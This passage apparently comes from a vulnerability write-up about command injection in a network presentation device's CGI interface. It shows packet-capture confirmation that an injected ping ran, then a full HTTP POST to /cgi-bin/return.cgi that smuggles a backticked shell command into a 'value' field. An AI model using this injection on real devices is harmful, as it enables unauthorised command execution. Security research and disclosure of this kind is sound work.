 <span class="nv">&lt;return&gt;&lt;protocol&gt;</span><span class="nb">http</span><span class="nv">&lt;/protocol&gt;&lt;result&gt;</span><span class="nb">1</span><span class="nv">&lt;/result&gt;&lt;/return&gt;</span>
</code></pre></div></div>

We get instant confirmation that our payload got executed:

```
192.168.100.2 > 192.168.100.1: ICMP echo request, id 35950
192.168.100.1 > 192.168.100.2: ICMP echo reply, id 35950
192.168.100.2 > 192.168.100.1: ICMP echo request, id 35950
192.168.100.1 > 192.168.100.2: ICMP echo reply, id 35950
192.168.100.2 > 192.168.100.1: ICMP echo request, id 35950
192.168.100.1 > 192.168.100.2: ICMP echo reply, id 35950
```

---

Our second sink, **service_onoff.sh** must be linked to this page that let administrators enable or disable network services:

{:.foo}
![airmedia_services_ui]({{site.url}}/assets/airmedia_services_ui.png)

Again, exploitation is straight forward as we just have to put our payload between backticks in the *value* field.

<div class="language-bash highlighter-rouge">
<div class="highlight">
<pre class="highlight">
<code><span class="o">POST</span> <span class="s2">/cgi-bin/return.cgi</span> HTTP/1.1
<span class="nv">Host:</span> 192.168.100.2
<span class="nv">Connection:</span> close
<span class="nv">Content-Length:</span> 116
<span class="nv">Content-Type:</span> application/x-www-form-urlencoded

command=<span class="nv">&lt;Send&gt;&lt;seid&gt;</span><span class="nb">xfnCLxTHA2eyrpNJ</span><span class="nv">&lt;/seid&gt;&lt;name&gt;<span class="nb">USBHID_ONOFF</span>&lt;/name&gt;&lt;value&gt;</span><span class="nb">`ping -c 3 192.168.100.1`</span><span class="nv">&lt;/value&gt;&lt;/Send&gt;</span></code></pre></div></div>

<div class="language-bash highlighter-rouge">
<div class="highlight">
<pre class="highlight">
<code><span class="o">HTTP/1.1 200 OK</span>
<span class="nv">X-XSS-Protection:</span> 1; mode=block
<span class="nv">Cache-Control:</span> public, must-revalidate, proxy-revalidate, max-age=604800
<span class="nv">Strict-Transport-Security:</span> max-age=31536000; includeSubDomains; preload
<span class="nv">X-Frame-Options:</span> sameorigin
<span class="nv">Expires:</span> Tue, 14 Jun 2005 18:27:38 GMT
<span class="nv">Content-type:</span> text/xml
<span class="nv">Connection:</span> close
<span class="nv">Date:</span> Tue, 07 Jun 2005 18:27:41 GMT
<span class="nv">Server:</span> lighttpd/1.4.37
<span class="nv">Content-Length:</span> 51

